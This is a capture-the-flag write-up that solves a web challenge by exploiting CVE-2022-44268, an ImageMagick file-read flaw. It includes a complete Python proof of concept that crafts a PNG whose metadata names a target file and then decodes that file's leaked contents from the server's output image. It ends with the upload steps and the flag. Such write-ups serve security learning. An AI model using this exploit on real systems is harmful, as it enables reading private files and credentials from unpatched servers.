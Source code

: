 # web/scorepost-generator

by WoodMan

## Summary

> let's see your crazy plays

## Challenge Solving

A critical line in the Dockerfile:

```docker
# HMMMMMMMMMMMMMMMMMMMMMMMMM......
FROM vulhub/imagemagick:7.1.0-49
# what an interesting image to use...
```

From this part we can identify a known vulnerability: **CVE-2022-44268**

> **CVE-2022-44268:**
> &#x20;When ImageMagick processes PNG files it parses `tEXt` chunks. If a `tEXt` chunk contains a `profile` keyword that points to a file path, ImageMagick will read that file and embed its contents into the output PNG’s Raw profile type field. The file contents are stored in the PNG metadata as hex-encoded data.

`scorepost.js` image-generation logic:

```javascript
...    
  const baseArgs = [
        bgImagePath,
        '-crop', cropGeometry,
        '+repage',
        '-resize', '1920x1080!',
        '-brightness-contrast', '-20,-20',
        '-colorspace', 'RGB',
        SKELETON_PATH,
        '-geometry', '+0+0',
        '-composite',
        '-font', FONT_PATH,
        '-fill', 'white',
        '-pointsize', '45',
        '-annotate', '+10+55', title,
        '-pointsize', '30',
        '-annotate', '+13+90', creator,
        '-annotate', '+13+124', player,
        basePath
    ];
    
    await execFileAsync('convert', baseArgs, { maxBuffer: 50 * 1024 * 1024 });
...
```

Next, we can write a proof-of-concept to generate a malicious image.

```python
#!/usr/bin/env python3
import struct
import zlib
import re
import argparse

def create_exploit_png(target_file, output_file):
    png = b'\x89PNG\r\n\x1a\n'

    ihdr = struct.pack('>IIBBBBB', 1, 1, 8, 2, 0, 0, 0)
    png += struct.pack('>I', 13)
    png += b'IHDR' + ihdr
    png += struct.pack('>I', zlib.crc32(b'IHDR' + ihdr))

    text_data = b'profile\x00' + target_file.encode()
    png += struct.pack('>I', len(text_data))
    png += b'tEXt' + text_data
    png += struct.pack('>I', zlib.crc32(b'tEXt' + text_data))

    idat = zlib.compress(b'\x00\xff\xff\xff')
    png += struct.pack('>I', len(idat))
    png += b'IDAT' + idat
    png += struct.pack('>I', zlib.crc32(b'IDAT' + idat))

    png += struct.pack('>I', 0)
    png += b'IEND'
    png += struct.pack('>I', zlib.crc32(b'IEND'))

    with open(output_file, 'wb') as f:
        f.write(png)

    print(f"[+] Created: {output_file} -> {target_file}")

def extract_flag_from_png(filename):
    with open(filename, 'rb') as f:
        data = f.read()

    pos = 8

    while pos < len(data):
        if pos + 8 > len(data):
            break

        length = struct.unpack('>I', data[pos:pos+4])[0]
        chunk_type = data[pos+4:pos+8]
        chunk_data = data[pos+8:pos+8+length]

        if chunk_type in [b'tEXt', b'zTXt', b'iTXt']:
            null_pos = chunk_data.find(b'\x00')
            if null_pos != -1:
                text = chunk_data[null_pos+1:].decode('latin1', errors='ignore')
                hex_match = re.findall(r'([0-9a-fA-F]{32,})', text)

                if hex_match:
                    for hex_str in hex_match:
                        try:
                            decoded = bytes.fromhex(hex_str)
                            print(decoded.decode('utf-8', errors='ignore'))
                        except:
                            pass

        pos += 12 + length

def main():
    parser = argparse.ArgumentParser(description='CVE-2022-44268 Exploit')
    subparsers = parser.add_subparsers(dest='mode')

    create_parser = subparsers.add_parser('create')
    create_parser.add_argument('-t', '--target', required=True)
    create_parser.add_argument('-o', '--output', default='exploit.png')

    extract_parser = subparsers.add_parser('extract')
    extract_parser.add_argument('-i', '--input', required=True)

    args = parser.parse_args()

    if args.mode == 'create':
        create_exploit_png(args.target, args.output)
    elif args.mode == 'extract':
        extract_flag_from_png(args.input)
    else:
        parser.print_help()

if __name__ == '__main__':
    main()
```

After the malicious image is ready, next we need to find the exploitation flow.

From `app.js` we see two files must be uploaded: `osz` and `osr` — the map archive and the replay file, respectively.

So we need to create a map package, place the malicious image inside it, and modify the `.osu` file with the following entry:

```
...
[Events]
0,0,"bg.png",0,0
...
```

Then play the map once and export a replay (F2).

Finally, upload the map package and the replay, obtain the generated output image, and feed it into the PoC to retrieve the flag.

## Flag

`osu{but_h0w_do_1_send_my_fc_now??}`

